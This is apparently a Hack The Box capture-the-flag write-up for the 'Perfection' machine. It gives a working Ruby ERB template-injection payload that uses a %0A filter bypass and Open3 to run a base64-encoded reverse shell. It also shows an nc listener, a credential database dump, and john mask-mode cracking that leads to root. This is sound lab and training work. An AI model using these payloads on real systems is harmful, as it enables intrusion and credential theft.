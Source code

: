 ![Perfection](https://github.com/amalcew/htb-writeups/assets/73908014/904d7389-1950-4c2b-b6c1-e9e5a8e244d5)

## Reconnaissance & port scanning

Starting with `nmap` scan we discover open ports 22 and 80.

```bash
# Nmap 7.94SVN scan initiated Sun Mar 10 16:52:27 2024 as: nmap -v -sV -sC --open -vvv -oA logs/initial_recon/initial 10.10.11.253
Nmap scan report for 10.10.11.253 (10.10.11.253)
Host is up, received syn-ack (0.034s latency).
Scanned at 2024-03-10 16:52:27 CET for 8s
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMz41H9QQUPCXN7lJsU+fbjZ/vR4Ho/eacq8LnS89xLx4vsJvjUJCcZgMYAmhHLXIGKnVv16ipqPaDom5cK9tig=
|   256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBqNwnyqGqYHNSIjQnv7hRU0UC9Q4oB4g9Pfzuj2qcG4
80/tcp open  http    syn-ack nginx
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Weighted Grade Calculator
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Mar 10 16:52:35 2024 -- 1 IP address (1 host up) scanned in 7.97 seconds
```

![01-webpage](https://github.com/amalcew/htb-writeups/assets/73908014/1e47cdf0-869d-456f-b4f1-74b6470a9b46)

Machine hosts webpage which allows to calculate your grades with usage of Ruby's framework called WEBrick.

![02-calculator](https://github.com/amalcew/htb-writeups/assets/73908014/e8577d4c-223c-41c7-902e-1d9e445429bd)

Additional scans (`ffuf`, `whatweb`, `dirsearch`) didn't discover anything that could be useful or vulnerable - the calculator itself looks like main goal of this machine.

The calculator blocks any special character except `/`. That way it prevents direct injection of the malicious input.

![03-malicious_input_blocked](https://github.com/amalcew/htb-writeups/assets/73908014/7ba5cb58-add9-40a0-8789-1600d7178a62)

In the case of this machine `Burp Suite` was very useful tool that allowed to tinker with the payload. After sending the POST request to repeater I've checked that calculator understands URL notation:

![03-url_hello_world](https://github.com/amalcew/htb-writeups/assets/73908014/0277e5df-3d04-44d1-917f-868c61070312)

This knowledge is very useful, as the page probably uses some regex filter to check for special characters. The question is, what special chars are omitted by mistake.
After some tinkering, I've discovered that `%0A` (URL newline character) is not properly handled. Using [HackTricks cheatsheet for SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) I've managed to check, that the machine is indeed vulnerable to SSTI attack.

In this example, payload is some text `hello`, `%OA` and URL-encoded Ruby's function to list root directory `<%= Dir.entries('/') %>`

![05-ssti_exposed](https://github.com/amalcew/htb-writeups/assets/73908014/15b7a43a-a7b0-4513-8cd1-b3d39c3a08e9)

## Initial foothold

Obtaining reverse shell connection on this machine required some experimenting with the payload, as simple `system("command")` was insufficient. 
The final payload was composed of `<% require 'open3' %><% @a,@b,@c,@d=Open3.popen3('payload') %><%= @b.readline()%>` and standard payload that spawned reverse shell.

```bash
# payload
echo YmFza ... SNIP ... +JjEK|base64 -d|/bin/bash

# reverse shell
<% require 'open3' %><% @a,@b,@c,@d=Open3.popen3('eecho YmFza ... SNIP ... +JjEK|base64 -d|/bin/bash') %><%= @b.readline()%> 
```

The reverse shell was also URL-encoded using Burp's decoding tool for stability of the payload.
Listening on selected port and executing the payload spawned the reverse shell, as intended.

![06-reverse_shell](https://github.com/amalcew/htb-writeups/assets/73908014/7b504564-98f9-4e6d-b53c-1ecb200307c9)

```bash
> nc -lvnp 1234
listening on [any] 1234 ...
connect to [xx.xx.xx.xx] from (UNKNOWN) [10.10.11.253] 43938
bash: cannot set terminal process group (997): Inappropriate ioctl for device
bash: no job control in this shell
susan@perfection:~/ruby_app$ id
id
uid=1001(susan) gid=1001(susan) groups=1001(susan),27(sudo)
```

This was sufficient to read user's flag.

```bash
susan@perfection:~/ruby_app$ cd
cd
susan@perfection:~$ cat user.txt
cat user.txt
9844************************6e80
```

## Root privileges escalation

As the machine hosts website, it probably contains some kind of database storing user data. When inspecting the `susan` home folder there is a directory named `Migration` containing Sqlite3 database `pupilpath_credentials.db`. The database contains a table that stores password hashes:

```bash
susan@perfection:~/Migration$ sqlite3 pupilpath_credentials.db 
SQLite version 3.37.2 2022-01-06 13:25:41
Enter ".help" for usage hints.
sqlite> .tables
users
sqlite> select * from users;
1|Susan Miller|abeb********************************************************023f
2|Tina Smith|dd56********************************************************ec57
3|Harry Tyler|d33a********************************************************6393
4|David Lawrence|ff7a********************************************************b87a
5|Stephen Locke|154a********************************************************9bb8
```

As the machine has home directory only for `susan`, the first hash looks most promising. Further check of hash type with usage of online tool [Hash Analyzer](https://www.tunnelsup.com/hash-analyzer/) revealed that the hash uses SHA256 function.

![image](https://github.com/amalcew/htb-writeups/assets/73908014/9f3a5899-a807-45fb-8010-1bc71780e520)

Sadly, any attempt to crack the hash with usage of `john` and dictionary did not succeed. The hash probably does not contain any form of salt, which means that the password is custom.

Further exploration of the machine revealed that `susan` has sudo privileges protected with password

```bash
susan@perfection:~$ groups
susan sudo
```

and interesting artifact under `/var/mail` directory - an 'email' from Tina, which states: 

```
Due to our transition to Jupiter Grades because of the PupilPath data breach, I thought we should also migrate our credentials ('our' including the other students

in our class) to the new platform. I also suggest a new password specification, to make things easier for everyone. The password format is:

{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

Note that all letters of the first name should be convered into lowercase.

Please hit me with updates on the migration when you can. I am currently registering our university with the platform.

- Tina, your delightful student
```

This was the reason why `john` did not succeed in password cracking. Optimistically for us, `john` provides masking mode that allows to input predefined format of the password and reduce the scope:

```bash
> john hash --format=Raw-SHA256 --mask='susan_nasus_?d' -min-len=13 -max-len=22
Using default input encoding: UTF-8
Loaded 5 password hashes with no different salts (Raw-SHA256 [SHA256 256/256 AVX2 8x])
Warning: poor OpenMP scalability for this hash type, consider --fork=4
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:00  (17) 0g/s 0p/s 0c/s 0C/s
0g 0:00:00:00 6.15% (18) (ETA: 19:58:48) 0g/s 1310Kp/s 1310Kc/s 6553KC/s susan_nasus_52998..susan_nasus_057701
0g 0:00:00:00 9.49% (19) (ETA: 19:58:48) 0g/s 13107Kp/s 13107Kc/s 65536KC/s susan_nasus_559437..susan_nasus_0113111
0g 0:00:00:00 9.97% (20) (ETA: 19:58:49) 0g/s 38191Kp/s 38191Kc/s 190958KC/s susan_nasus_9499577..susan_nasus_71113111
0g 0:00:00:02 10.00% (21) (ETA: 19:59:09) 0g/s 49813Kp/s 49813Kc/s 249066KC/s susan_nasus_10924777..susan_nasus_897431111
susan_nasus_*** (?)     
1g 0:00:00:17 78.89% (21) (ETA: 19:59:09) 0.05868g/s 51440Kp/s 51440Kc/s 218295KC/s susan_nasus_176239854..susan_nasus_829679854
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
```

Et voilà! We obtained the Susan's password which will allow the root access to the machine:

```bash
susan@perfection:/var$ sudo su
[sudo] password for susan:
root@perfection:/var# id
uid=0(root) gid=0(root) groups=0(root)
```

and to read the root flag:

```bash
root@perfection:/var# cat /root/root.txt 
31c8************************e681
```

